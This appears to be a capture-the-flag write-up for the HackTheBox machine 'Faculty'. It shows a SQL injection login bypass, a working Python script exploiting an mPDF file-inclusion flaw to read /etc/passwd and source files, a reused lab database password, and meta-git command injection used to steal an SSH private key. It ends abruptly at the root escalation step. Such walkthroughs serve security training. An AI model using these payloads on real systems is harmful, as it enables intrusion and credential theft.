

# Faculty

---

# Setup

Spawned in the machine as always, got the IP and stored it in an environment variable in case I lose it -as always-

```bash
$ export IP=10.10.11.172
$ echo $IP
10.10.11.172
```

and to make sure everything is working alright and the target machine is up and running, we can use `ping` to make sure it's alive.

```bash
$ ping $IP
PING 10.10.11.172 (10.10.11.172) 56(84) bytes of data.
64 bytes from 10.10.11.172: icmp_seq=1 ttl=63 time=69.3 ms
64 bytes from 10.10.11.172: icmp_seq=2 ttl=63 time=68.1 ms
64 bytes from 10.10.11.172: icmp_seq=3 ttl=63 time=67.9 ms
64 bytes from 10.10.11.172: icmp_seq=4 ttl=63 time=70.4 ms
```

---

## Enumeration

First step after spawning in the target machine and connected to the VPN, I start an [`nmap`](https://nmap.org) scan to determine open ports and running services and may be vulnerable using the following flags:

`-sV`: Determine running services/versions on open ports
`-sC`: Run default scripts
`-v`: Verbose output for more information about the scan
`-oN`: Write the output of the scan into a file

```bash
$ nmap -sV -sC -v -oN scan.nmap $IP
```

After the scan is complete, here's the result:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://faculty.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan reveals the domain name of the web application `http://faculty.htb` so I added it to my hosts file `/etc/hosts` and started enumerating directories and subdomains using `wfuzz` and `gobuster`, then I proceeded to check out the web application.

---

## Web Application Scan

When I navigated to the website it redirected me to a login page using an ID, but the `GoBuster` scan showed a `/admin` page, so I headed there and was greeted with a username/password login, I successfuly logged in using and SQL Injection `admin' or 1=1 #` and had access to the Admin panel.

At first, i noticed the URL: `http://faculty.htb/admin/index.php?page=home`, I tried injecting DirTraversal queries, I used `wfuzz` to do so, but with no success. Nothing useful either from `Gobuster` or the subdomain fuzz.

```bash
wfuzz -c -f pathTrav -Z -w /usr/share/wordlists/wfuzz/vulns/dirTraversal-nix.txt -u 'http://faculty.htb/admin/index.php?page=FUZZ' -b 'PHPSESSID=l31dj9gukrtn7a82dah5higvsj' 
```

After poking around the website, I found that the website generates a PDF files of any list, upon generating the PDF it redirects me to `/mpdf/tmp/{RANDOM_PDF_FILE}`, so I googled `mpdf vulns` and read about a vulnerability that allows LFI attacks. Useful links: [Exploit DB](https://www.exploit-db.com/exploits/50995), and [HackTricks <3](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf).

---

## MPDF LFI

So I started up `BurpSuite` and started analyzing the pdf payload that's being sent to the server, and the payload is:

```
pdf=JTI1M0NoMSUyNTNFJTI1M0NhJTJCbmFtZSUyNTNEJTI1MjJ0b3AlMjUyMiUyNTNFJTI1M0MlMjUyRmElMjUzRWZhY3VsdHkuaHRiJTI1M0MlMjUyRmgxJTI1M0UlMjUzQ2gyJTI1M0VDb3Vyc2VzJTI1M0MlMjUyRmgyJTI1M0UlMjUzQ3RhYmxlJTI1M0UlMjUwOSUyNTNDdGhlYWQlMjUzRSUyNTA5JTI1MDklMjUzQ3RyJTI1M0UlMjUwOSUyNTA5JTI1MDklMjUzQ3RoJTJCY2xhc3MlMjUzRCUyNTIydGV4dC1jZW50ZXIlMjUyMiUyNTNFJTI1MjMlMjUzQyUyNTJGdGglMjUzRSUyNTA5JTI1MDklMjUwOSUyNTNDdGglMkJjbGFzcyUyNTNEJTI1MjJ0ZXh0LWNlbnRlciUyNTIyJTI1M0VDb3Vyc2UlMjUzQyUyNTJGdGglMjUzRSUyNTA5JTI1MDklMjUwOSUyNTNDdGglMkJjbGFzcyUyNTNEJTI1MjJ0ZXh0LWNlbnRlciUyNTIyJTI1M0VEZXNjcmlwdGlvbiUyNTNDJTI1MkZ0aCUyNTNFJTI1MDklMjUwOSUyNTA5JTI1M0MlMjUyRnRyJTI1M0UlMjUzQyUyNTJGdGhlYWQlMjUzRSUyNTNDdGJvZHklMjUzRSUyNTNDdHIlMjUzRSUyNTNDdGQlMkJjbGFzcyUyNTNEJTI1MjJ0ZXh0LWNlbnRlciUyNTIyJTI1M0UxJTI1M0MlMjUyRnRkJTI1M0UlMjUzQ3RkJTJCY2xhc3MlMjUzRCUyNTIydGV4dC1jZW50ZXIlMjUyMiUyNTNFJTI1M0NiJTI1M0VJbmZvcm1hdGlvbiUyQlRlY2hub2xvZ3klMjUzQyUyNTJGYiUyNTNFJTI1M0MlMjUyRnRkJTI1M0UlMjUzQ3RkJTJCY2xhc3MlMjUzRCUyNTIydGV4dC1jZW50ZXIlMjUyMiUyNTNFJTI1M0NzbWFsbCUyNTNFJTI1M0NiJTI1M0VJVCUyNTNDJTI1MkZiJTI1M0UlMjUzQyUyNTJGc21hbGwlMjUzRSUyNTNDJTI1MkZ0ZCUyNTNFJTI1M0MlMjUyRnRyJTI1M0UlMjUzQ3RyJTI1M0UlMjUzQ3RkJTJCY2xhc3MlMjUzRCUyNTIydGV4dC1jZW50ZXIlMjUyMiUyNTNFMiUyNTNDJTI1MkZ0ZCUyNTNFJTI1M0N0ZCUyQmNsYXNzJTI1M0QlMjUyMnRleHQtY2VudGVyJTI1MjIlMjUzRSUyNTNDYiUyNTNFQlNDUyUyNTNDJTI1MkZiJTI1M0UlMjUzQyUyNTJGdGQlMjUzRSUyNTNDdGQlMkJjbGFzcyUyNTNEJTI1MjJ0ZXh0LWNlbnRlciUyNTIyJTI1M0UlMjUzQ3NtYWxsJTI1M0UlMjUzQ2IlMjUzRUJhY2hlbG9yJTJCb2YlMkJTY2llbmNlJTJCaW4lMkJDb21wdXRlciUyQlNjaWVuY2UlMjUzQyUyNTJGYiUyNTNFJTI1M0MlMjUyRnNtYWxsJTI1M0UlMjUzQyUyNTJGdGQlMjUzRSUyNTNDJTI1MkZ0ciUyNTNFJTI1M0N0ciUyNTNFJTI1M0N0ZCUyQmNsYXNzJTI1M0QlMjUyMnRleHQtY2VudGVyJTI1MjIlMjUzRTMlMjUzQyUyNTJGdGQlMjUzRSUyNTNDdGQlMkJjbGFzcyUyNTNEJTI1MjJ0ZXh0LWNlbnRlciUyNTIyJTI1M0UlMjUzQ2IlMjUzRUJTSVMlMjUzQyUyNTJGYiUyNTNFJTI1M0MlMjUyRnRkJTI1M0UlMjUzQ3RkJTJCY2xhc3MlMjUzRCUyNTIydGV4dC1jZW50ZXIlMjUyMiUyNTNFJTI1M0NzbWFsbCUyNTNFJTI1M0NiJTI1M0VCYWNoZWxvciUyQm9mJTJCU2NpZW5jZSUyQmluJTJCSW5mb3JtYXRpb24lMkJTeXN0ZW1zJTI1M0MlMjUyRmIlMjUzRSUyNTNDJTI1MkZzbWFsbCUyNTNFJTI1M0MlMjUyRnRkJTI1M0UlMjUzQyUyNTJGdHIlMjUzRSUyNTNDdHIlMjUzRSUyNTNDdGQlMkJjbGFzcyUyNTNEJTI1MjJ0ZXh0LWNlbnRlciUyNTIyJTI1M0U0JTI1M0MlMjUyRnRkJTI1M0UlMjUzQ3RkJTJCY2xhc3MlMjUzRCUyNTIydGV4dC1jZW50ZXIlMjUyMiUyNTNFJTI1M0NiJTI1M0VCU0VEJTI1M0MlMjUyRmIlMjUzRSUyNTNDJTI1MkZ0ZCUyNTNFJTI1M0N0ZCUyQmNsYXNzJTI1M0QlMjUyMnRleHQtY2VudGVyJTI1MjIlMjUzRSUyNTNDc21hbGwlMjUzRSUyNTNDYiUyNTNFQmFjaGVsb3IlMkJpbiUyQlNlY29uZGFyeSUyQkVkdWNhdGlvbiUyNTNDJTI1MkZiJTI1M0UlMjUzQyUyNTJGc21hbGwlMjUzRSUyNTNDJTI1MkZ0ZCUyNTNFJTI1M0MlMjUyRnRyJTI1M0UlMjUzQ3RyJTI1M0UlMjUzQ3RkJTJCY2xhc3MlMjUzRCUyNTIydGV4dC1jZW50ZXIlMjUyMiUyNTNFNSUyNTNDJTI1MkZ0ZCUyNTNFJTI1M0N0ZCUyQmNsYXNzJTI1M0QlMjUyMnRleHQtY2VudGVyJTI1MjIlMjUzRSUyNTNDYiUyNTNFdGVzdCUyNTNDJTI1MkZiJTI1M0UlMjUzQyUyNTJGdGQlMjUzRSUyNTNDdGQlMkJjbGFzcyUyNTNEJTI1MjJ0ZXh0LWNlbnRlciUyNTIyJTI1M0UlMjUzQ3NtYWxsJTI1M0UlMjUzQ2IlMjUzRSUyNTNDYW5ub3RhdGlvbiUyQmZpbGUlMjUzRCUyNTIyJTI1N0IlMjUyRmV0YyUyNTJGcGFzc3dkJTI1N0QlMjUyMiUyQmNvbnRlbnQlMjUzRCUyNTIyJTI1N0IlMjUyRmV0YyUyNTJGcGFzc3dkJTI1N0QlMjUyMiUyQmljb24lMjUzRCUyNTIyR3JhcGglMjUyMiUyQnRpdGxlJTI1M0QlMjUyMkF0dGFjaGVkJTJCRmlsZSUyNTNBJTJCJTI1N0IlMjUyRmV0YyUyNTJGcGFzc3dkJTI1N0QlMjUyMiUyQnBvcy14JTI1M0QlMjUyMjE5NSUyNTIyJTJCJTI1MkYlMjUzRSUyNTNDJTI1MkZiJTI1M0UlMjUzQyUyNTJGc21hbGwlMjUzRSUyNTNDJTI1MkZ0ZCUyNTNFJTI1M0MlMjUyRnRyJTI1M0UlMjUzQyUyNTJGdGJvYnklMjUzRSUyNTNDJTI1MkZ0YWJsZSUyNTNF
```

Looks like `Base64` to me, so after poking around, it's first encoded twice as urlencode then encoded to base64, I wrote the python script to prepare the payload, send it to the server, and print the pdf file, I then go ahead and navigate to `/mpdf/tmp/{FILE_NAME}`, and the file I addressed will be found in the attachments tab!

```python
from base64 import b64encode
from urllib.parse import quote
import requests

def generate_payload(file_name):
	payload = f'<annotation file="{file_name}" content="{file_name}" icon="Graph" title="Attached File: {file_name}" pos-x="195" />'
	# Double URL Encode & Base64 Encode:
	encoded_payload = b64encode(quote(quote(payload)).encode("ascii")).decode("ascii")
	return encoded_payload

def exploit(payload, url, path):
	r = requests.post(url + path, data={
		"pdf": payload
		}, cookies={
		"PHPSESSID":"l31dj9gukrtn7a82dah5higvsj"
		})
	return r

if __name__ == "__main__":
	url = "http://faculty.htb"
	path = "/admin/download.php"

	fname = input("Enter file name:\n")
	payload = generate_payload(fname)
	r = exploit(payload, url, path)
	print(r.text)
```

First I tried it with `/etc/passwd` and successfuly got it! now I can read almost any file I want, now I'll be looking for any way I know where the files I might want to read exist, which is probably gonna be exposed in error messages, this step I'll be trying to break the website somehow...

```bash
└─$ cat passwd | grep bash                  
root:x:0:0:root:/root:/bin/bash
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash
developer:x:1001:1002:,,,:/home/developer:/bin/bash
```

Here I can see the users `root`, `gbyolo` and `developer`

After poking around for a while, I found the website's weakness which is trying to read another user's schedule with the authentication cookie.



`/var/www/scheduling/admin/admin_class.php` is my first target, I downloaded it and from its first few lines, it's trying to connect to a mysql database through `db_connect.php` so I got it as well.

`admin_class.php`:
```php
public function __construct() {
		ob_start();
   	include 'db_connect.php';
```

`db_connect.php`:
```php
<?php 
$conn= new mysqli('localhost','sched','Co.met06aci.dly53ro.per','scheduling_db')or die("Could not connect to mysql".mysqli_error($con));
```

`Co.met06aci.dly53ro.per` Is the password for one of the previously discovered users, assuming people usually use the same password for different services, I tried to connect to port 22 `SSH` of the target machine using this password and it worked for the user `gbyolo`. and I'm in!

```bash
└─$ ssh gbyolo@$IP
gbyolo@10.10.11.169's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

...

You have mail.
Last login: Tue Sep 27 17:48:40 2022 from 10.10.16.5
gbyolo@faculty:~$ 

```

However, I did not have access to the user flag and I'll have to perform a horizontal privilege escalation to the user `developer`.

But first I created an SSH Key to login as the user `gbyolo` anytime I come back to this machine, first I executed the following commands on the target machine:

1. Created SSH Key:
```bash
ssh-keygen -t rsa
```

2. Added the key to `/.ssh/authorized_keys`
```bash
touch authorized_keys
cat id_rsa.pub > authorized_keys
cat id_rsa
```

I then got the private key to my kali machine into `gbyolo_rsa_id` then:

1. Edited its permissions
```bash
chmod 600 gbyolo_rsa_key
```

2. I can now login as the user `gbyolo` anytime using this key
```bash
└─$ ssh gbyolo@$IP -i gbyolo_rsa_id
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

...

You have mail.
Last login: Tue Sep 27 18:15:44 2022 from 10.10.16.5
gbyolo@faculty:~$ 
```

---

## Horizontal Privilege Escalation

First thing I noticed is that i got `1 mail`, so I was curious enough to check it:

```bash
gbyolo@faculty:~$ mail
"/var/mail/gbyolo": 1 message 1 unread
>U   1 developer@faculty. Tue Nov 10 15:03  16/623   Faculty group
? 
Return-Path: <developer@faculty.htb>
X-Original-To: gbyolo@faculty.htb
Delivered-To: gbyolo@faculty.htb
Received: by faculty.htb (Postfix, from userid 1001)
        id 0399E26125A; Tue, 10 Nov 2020 15:03:02 +0100 (CET)
Subject: Faculty group
To: <gbyolo@faculty.htb>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20201110140302.0399E26125A@faculty.htb>
Date: Tue, 10 Nov 2020 15:03:02 +0100 (CET)
From: developer@faculty.htb
X-IMAPbase: 1605016995 2
Status: O
X-UID: 1

Hi gbyolo, you can now manage git repositories belonging to the faculty group. Please check and if you have troubles just let me know!\ndeveloper@faculty.htb
```

Then, I transferred `linpeas.sh` and `pspy64` binary to the target machine to see if `developer` is running any vulnerable processes, but he/she isn't, so I started by investigating the `mysql` database:

```bash
mysql -u sched -p
```

Did not find anything new, find a table `users` with the password of the user `Admin` but I couldn't crack this md5 hash with any wordlists, so I moved on to the next step which I should've done earlier, check the programs that I have access to.

```bash
gbyolo@faculty:~/tests$ sudo -l
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
gbyolo@faculty:~/tests$ 
```

After some googling I immediately found that it's vulnerable to RCE (Remote Code Execution), useful links [here](https://security.snyk.io/vuln/SNYK-JS-METAGIT-541513) and [here](https://huntr.dev/bounties/1-npm-meta-git/). So I started experimenting with it as a PoC (Proof of Concept):

```bash
gbyolo@faculty:~$ mkdir test && cd test
gbyolo@faculty:~/test$ touch test1
gbyolo@faculty:~/test$ meta-git clone '||touch HACKED'

...

gbyolo@faculty:~/test$ ls
HACKED  test1
```

Executing commands as `developer`:

```bash
gbyolo@faculty:~/test$ cd /home
gbyolo@faculty:/home$ sudo -u "developer" meta-git clone 'pwn||whoami'
meta git cloning into 'pwn||whoami' at pwn||whoami

pwn||whoami:
fatal: repository 'pwn' does not exist
whoami: extra operand ‘pwn’
Try 'whoami --help' for more information.
developer
pwn||whoami ✓

...
```

Awesome! that's what that mail was about, should've been smarter about it, now I got the SSH private key of the user `developer` and now I can login as `developer`

```bash
gbyolo@faculty:/home$ sudo -u "developer" meta-git clone 'pwn||cat ~/.ssh/id_rsa'
```

On my kali machine:

```bash
└─$ chmod 600 developer_rsa_id

└─$ ssh developer@$IP -i developer_rsa_id 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

...

developer@faculty:~$ ls
sendmail.sh  user.txt
developer@faculty:~$ cat user.txt
*******************************6
developer@faculty:~$ 
```

---

## Vertical Privilege Escalation

root         732  0.0  0.9  26896 18188 ?        Ss   19:42   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers